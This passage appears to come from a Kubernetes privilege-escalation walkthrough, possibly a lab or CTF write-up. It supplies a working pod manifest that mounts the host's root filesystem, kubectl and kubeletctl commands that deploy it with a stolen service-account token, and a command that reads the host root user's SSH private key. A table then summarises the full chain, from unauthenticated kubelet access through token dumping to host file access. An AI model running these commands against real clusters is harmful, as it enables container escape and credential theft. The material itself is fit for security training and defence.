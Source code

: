   **privesc.yaml**:

  ```yaml
  apiVersion: v1
  kind: Pod
  metadata:
    name: privesc
    namespace: default
  spec:
    containers:
    - name: privesc
      image: nginx:1.14.2
      volumeMounts:
      - mountPath: /mnt/host
        name: host-root
    volumes:
    - name: host-root
      hostPath:
        path: /
    automountServiceAccountToken: true
    hostNetwork: true
  ```

  ---

  ### 8. Deploy the malicious Pod

  ```bash
  kubectl --token=$token \
          --certificate-authority=ca.crt \
          --server=https://<IP>:6443 \
          apply -f privesc.yaml
  ```

  ---

  ### 9. Access sensitive host files

  ```bash
  kubeletctl -i --server <IP> exec "cat /mnt/host/root/.ssh/id_rsa" -p privesc -c privesc
  ```

  Now you have **read the real host filesystem as root**.

  ---

  ### Quick Reference Table

  | Step | Goal                     | Main Command                    |
  | ---- | ------------------------ | ------------------------------- |
  | 1    | Test Kubelet API access  | `curl :10250/pods`              |
  | 2    | List active Pods         | `kubeletctl pods`               |
  | 3    | Identify vulnerable pods | `kubeletctl scan rce`           |
  | 4    | Exec RCE on Pod          | `kubeletctl exec "id"`          |
  | 5    | Dump Token and CA        | `cat /var/run/secrets/...`      |
  | 6    | Test permissions         | `kubectl auth can-i`            |
  | 7    | Create malicious Pod     | `kubectl apply -f privesc.yaml` |
  | 8    | Access host files        | `cat /mnt/host/...`             |
